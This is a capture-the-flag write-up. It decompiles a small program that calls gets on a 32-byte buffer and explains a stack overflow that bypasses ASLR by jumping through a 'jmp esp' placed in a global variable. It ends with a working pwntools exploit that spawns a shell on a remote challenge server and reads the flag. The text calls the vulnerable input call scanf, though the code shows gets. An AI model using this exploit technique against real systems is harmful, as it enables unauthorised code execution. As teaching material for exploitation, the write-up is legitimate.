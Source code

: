 We have a program that asks for a name and a number.
The program prints the name and specifies if the number was odd or even.

If we generate the pseudocode for the program in IDA, we get :

	int __cdecl main(int argc, const char **argv, const char **envp)
	{
	  int v4; // [sp+10h] [bp-20h]@1

	  puts("What's your name?");
	  fflush(stdout);
	  gets((char *)&v4);
	  puts("What's your favorite number?");
	  fflush(stdout);
	  __isoc99_scanf("%d", &meow);
	  if ( meow & 1 )
	  {
	    printf("Hello %s, %d is an odd number!\n", &v4, meow);
	    fflush(stdout);
	  }
	  else
	  {
	    printf("Hello %s, %d is an even number!\n", &v4, meow);
	    fflush(stdout);
	  }
	  return 0;
	}

Since the name is retrieved with scanf, we can easily write shellcode in the buffer,
overflow the buffer and overwrite the return address in memory after the buffer to
jump to the shellcode (to start /bin/sh) in the buffer. 

However, ASLR is enabled on the server so we cannot hardcode a value to jump to in
the stack. 

Since meow function is global, its address will not change even with ASLR and we can write 
instructions in this variable and use its address as the return address. If we write "jmp esp"
in meow and overwrite the return address with the address of meow (0x804A048), we can execute
"jmp esp" to jump on the stack to our shellcode.

Since the size of the buffer is 32 bytes, we write 32 nops to fill the buffer, then the address
of meow 4 times make sure to overwrite it (it is actually overwritten the 4th time), then some
nops for safety and then our shellcode. The "jmp esp" will actually jump after our buffer because
the stack pointer (esp) is decremented to pop the local variables before main exits.


The following python script retrieves the flag :

	from pwn import *

	meow_address = 0x804A048
	shellcode = asm(shellcraft.sh())
	buf = '\x90'*32 + p32(meow_address)*4 + '\x90'*32 + shellcode

	number = str(0x4040e4ff)#asm('jmp esp')) + 'AA'

	with remote('130.211.202.98', 7575) as p:
		print p.recvuntil('name?')
		p.sendline(buf)
		print p.recvuntil('number?')
		p.sendline(number)
		p.sendline('cat flag.txt')
		print p.recvuntil('}')
